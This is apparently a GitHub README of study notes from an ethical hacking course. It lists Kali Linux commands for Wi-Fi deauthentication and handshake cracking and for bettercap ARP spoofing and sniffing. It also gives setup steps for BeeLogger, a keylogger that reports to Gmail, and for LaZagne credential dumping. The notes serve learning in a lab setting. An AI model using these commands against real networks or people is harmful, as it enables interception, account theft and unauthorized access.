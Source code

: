 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next introduction tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     --> better tool to scan the network (uses nmap as a core command)  
airmon-ng  --> wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  --> manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern --> GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --> capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --> force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --> will crack demo-handshake against generated wordlist  
  
### In Kali linux try introduction for "bettercap":  

sudo bettercap  --> enter to the console of application  
help            --> to see which modules are available/enabled  
help net.probe  --> will send UDP packets to probe the network on connected devices  
net.probe on    --> turn it on  
help arp.spoof  -->  
set arp.spoof.fullduplex true   --> Will attack the target and the Gateay, this will ensure that if there is protection in GTW, the attack will succeed.  
set arp.spoof.targets 10.0.2.4  --> Adding the target to monitor.  
arp.spoof on    --> enable the spoof service  
set net.sniff.local true  --> If true, will consider packets from/to computer as local.  
net.sniff on    --> enable the sniffing service  


vim sniff.cap  
----------------------------  
net probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 10.0.2.4  
set net.sniff.local true  
arp.spoof on  
net.sniff on  
----------------------------  
bettercap -iface eth0 -caplet sniff.cap  --> will do manual job as auto.  

### To change MAC Address of your adapter do next:  
ifconfig wlan0 down  
ifconfig wlan0 hw ether 00:11:22:33:44:55  
ifconfig wlan0 up  

### Create a logger with reports to be sent to your dedicated Gmail
git clone https://github.com/4w4k3/BeeLogger.git
install on your kali-linux
create a new dedicated Gmail account with this enabled https://www.google.com/settings/security/lesssecureapps

### Retrieve locally stored passwords on your host with LaZagne
git clone https://github.com/AlessandroZ/LaZagne.git
pip install -r requirements.txt
laZagne.exe all       (Launch all modules)
LaZagne.exe browsers  (will show you found local passwords)

